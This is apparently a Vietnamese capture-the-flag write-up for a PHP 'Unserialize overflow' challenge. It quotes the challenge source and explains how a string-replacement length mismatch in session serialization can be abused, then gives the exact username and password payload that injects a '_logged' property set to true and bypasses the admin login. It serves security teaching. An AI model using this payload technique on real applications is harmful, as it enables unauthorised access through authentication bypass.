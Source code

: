 # PHP - Unserialize overflow - Medium (40 pts)

## Bài cung cấp source code nên chúng ta sẽ cùng phân tích qua một tí về source code:

Chúng ta có một class User, trong class có các thuộc tính protected: username, password, _logged, email.

![image](https://user-images.githubusercontent.com/83667873/154333264-12cc6296-a711-4949-8aa1-762977a1e957.png)

Các hàm trong class:
- setLogged(): cập nhập trạng thái login
- isLogged(): kiểm tra xem user đã login hay chưa
- getUsername(): lấy username
- getPassword(): lấy password
 
### Các hàm chính:

**storeUserSession:**
```
function storeUserSession($user)
{
    $serialized_value = serialize($user);
    // avoid the storage of null byte, replace it with \0 just in case some session storage don't support it
    // this is done because protected object are prefixed by \x00\x2a\x00 in php serialisation
    $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $serialized_value);
    $_SESSION['user'] = $data;
}
```
Hàm này thực hiện serialize object được tạo từ thông tin username và password do người dùng nhập vào, sau đó thực hiện thay đổi Null_byte*Null_byte thành `\0\0\0` và cập nhập
` $_SESSION['user']` thành giá trị trên

**getUserSession()**

```
function getUserSession()
{
    $user = null;
    if (isset($_SESSION['user'])) {
        $data = $_SESSION['user'];
        $serialized_user = str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
        $user = unserialize($serialized_user);
    } else {
        $user = new User('guest', '');
    }
    return $user;
}

```

Trước tiên nếu như `isset($_SESSION['user'])` thì sẽ thực hiện lấy giá trị $_SESSION['user'] thay đổi `\0\0\0` thành null_byte*null_byte, sau đó thực hiện unserialize giá trị trên thu được
object user .Ngược lại nếu như $_SESSION['user'] chưa được set thì sẽ tạo object user với username là 'guest' và password là ''.
Kết quả trả về là object user.

## Đoạn code chính

```
session_start();
$errorMsg = "";
$currentUser = null;

// keep entered values :
if (isset($_POST['submit'])) {
    $currentUser = new User($_POST['username'], $_POST['password']);
    $isLogged = $currentUser->getUsername() === 'admin' && 
        hash('sha512',$currentUser->getPassword()) === 'b3b7b663909f8e9b4e2a581337159e8a5e468c088ec802cb99a027c1dcbefb7d617fcab66ab4402d4617cde33f7fce93ae3c4e8f77aec2bb5f8c7c8aec3bbc82'; // don't try to bruteforce me this is useless
    $currentUser->setLogged($isLogged);
    $errorMsg = ($isLogged) ? '' : 'Invalid username or password.';
    storeUserSession($currentUser);
} else {
    $currentUser = getUserSession();
}

if ($currentUser->isLogged()) {
    echo 'you are logged in! congratz, the flag is: ' . $FLAG;
    die();
}

if (isset($_GET['source'])) {
    show_source(__FILE__);
    die();
}
```
### Method POST

Ở đây chúng ta thấy giá trị username và password được nhập vào với method POST.

Sau đó, sẽ thực hiện tạo một object thuộc class User với giá trị username và password phía trên.

Nếu object này có username = admin và password = sha512 thì sẽ login thành công (gọi hàm setLogged và bật _logged lên `true`)

Gọi hàm storeUserSession() để set giá trị cho session.

### Method GET:

Lấy thông tin của object user hiện tại bằng cách gọi đến hàm getUserSession()

Nếu như isLogged() thì flag sẽ được in ra.

Tóm lại, nhiệm vụ của chúng ta là cần phải làm cách gì đó để thuộc tính _logged có giá trị là `true`.

Ở đây có một kiến thức chúng ta cần lưu ý là trong php, trong giá trị serialized, null_byte*null_byte sẽ đứng trước thuộc tính protected. Đó là lý do tại sao có sự xuất hiện của việc thay đi thay lại null_byte*null_byte->\0\0\0

Nhìn trong đoạn code thì có vẻ việc thay đi rồi thay lại thì khá bình thường nhưng thực chất là không. 

Ví dụ ở đây mình nhập giá trị cho username là \0\0\0, thì lúc này lúc serialize thuộc tính username sẽ có số byte là 6. Nhưng sau khi giá trị serialize
được lưu vào session và sau đó trước khi unserialize thì tất cả \0\0\0 sẽ được thay thế thành null_byte*null_byte tức chỉ 3 byte, mà trong giá trị serialized vẫn bị định nghĩa
là 6 bytes nên nó bắt buộc phải lấy tiếp những byte tiếp theo sau giá trị của nó (trong trường hợp này là những byte định nghĩa cho thuộc tính password), dẫn đến lỗi xảy ra và không thể unserialize.

Mình thực hiện dựng lại ở local để test:

- serialized object:

![image](https://user-images.githubusercontent.com/83667873/154337923-c77029fd-b670-4394-aeee-e50c3f1fcfbb.png)

- Giá trị sau thay thế:

![image](https://user-images.githubusercontent.com/83667873/154338035-ddf42395-ddbb-400a-b470-05afd982df01.png)

- Giá trị sau thay thế để unserialize;

![image](https://user-images.githubusercontent.com/83667873/154338138-f62c1247-af3d-486d-adf5-c5bb254be69b.png)

Ở đây chúng ta sẽ thấy việc unserialize thất bại, lỗi ở byte thứ 46:

![image](https://user-images.githubusercontent.com/83667873/154338625-cd2fb155-7a6a-4e78-a100-0f336faaa886.png)

Đây chính là nơi mà chúng ta có thể tận dụng để thay đổi giá trị _logged thành true.

ý tưởng chính là chúng ta sẽ thực hiện truyền một số lượng \0\0\0 vào username sao cho sau khi thay thế nó sẽ cần thêm một số lượng byte, số lượng byte này là hợp lí để lấy luôn phần `s:12:"*_password`

Sau đó trong phần payload của password chúng ta sẽ tính toán để định nghĩa các thuộc tính _password, _logged và _email với giá trị chúng ta mong muốn, ở đây có một lứu ý là chúng ta phải tính toán và set length cho email sao cho nó chứa cả đoạn dôi ra phía sau:

Hơi khó hiểu, nhưng chỉ cần mọi người cố gắng ngẫm tí là sẽ hiểu ra thôi.

Payload cuối cùng mình sử dụng:

Username

```
username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0 (10 lần \0\0\0)
```
Password:

```
password=";";s:12:"%00*%00_password";s:3:"123";s:10:"%00*%00_logged";b:1;s:9:"%00*%00_email";s:44:
```
Sau khi submit, khi thực hiện unserizlie chúng ta sẽ thu được object như bên dưới:

![image](https://user-images.githubusercontent.com/83667873/154340984-60a297dc-4465-4461-aede-8ab755ff98e2.png)

Submit payload lên server, chúng ta sẽ có được flag:

![image](https://user-images.githubusercontent.com/83667873/154341284-bdfc9b5a-5b9f-4b50-b4c0-8d95a3a415ea.png)

***Writeup mình viết hơi khó hiểu, nếu mọi người có gì thắc mắc hoặc mình có gì sai sót mọi người cứ dm cho mình ạ.***

*Cảm ơn vì đã đọc wu của mình. <3*





